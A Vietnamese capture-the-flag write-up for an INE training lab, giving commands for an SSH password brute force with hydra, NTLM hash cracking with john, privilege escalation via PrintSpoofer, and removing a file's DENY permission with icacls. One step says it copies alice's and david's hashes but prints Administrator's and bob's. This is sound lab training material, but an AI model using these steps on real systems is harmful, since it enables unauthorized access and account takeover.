# CTF 2

Câu 1: Một người dùng ssh không an toàn tên là `alice` đang ẩn náu trong hệ thống.

`hydra -l alice -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://target.ine.local`



Ta có được password của alice, ssh vào ta được 

`ssh alice@target.ine.local`



`dir`



ta thấy `flag1.txt` và `hashdump.txt`

`type flag1.txt` -> để đọc flag1.txt

Lấy được flag1

Câu 2. Sử dụng tập tin hashdump được tìm thấy trong thử thách trước, bạn có thể giải mã các hàm băm và xâm nhập vào tài khoản người dùng không?

`type hashdump.txt`



copy ra 1 file text dạng, ở đây ta sẽ copy `alice` và `david`

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
```

save lưu lại là hashdump.txt

Vì đây là NTLM hash

`john --format=NT hashdump.txt`



Ta có được mật khẩu của `alice` và `david`

`ssh david@target.ine.local`

`dir`



Ta lấy được flag2

Câu 3. Bạn có thể nâng cao quyền truy cập và đọc cờ trong thư mục `C://Windows//System32//config` không?

`whoami /priv`



Chúng ta có quyền SeImpersonatePrivilege

`https://github.com/itm4n/PrintSpoofer/releases`

Vì không có phiên Metapreter nên ta sẽ leo quyền bằng PrintSpoofer, tải về máy kali và post lên máy victim

`scp PrintSpoofer64.exe david@target.ine.local:"C:\\Users\\david\\"`

Chạy file

`PrintSpoofer64.exe -i -c cmd` 





Vào `config` để xem flag



Câu 4. Có vẻ như cờ được đặt trong home của Administrator đang ngăn chặn quyền truy cập trực tiếp.




Dùng `icacls flag` để đọc các quyền



Ta tháy có DENY ở `NT AUTHORITY\SYSTEM`

Ta sẽ xóa deny này 

`icacls flag /remove:d "NT AUTHORITY\SYSTEM"`





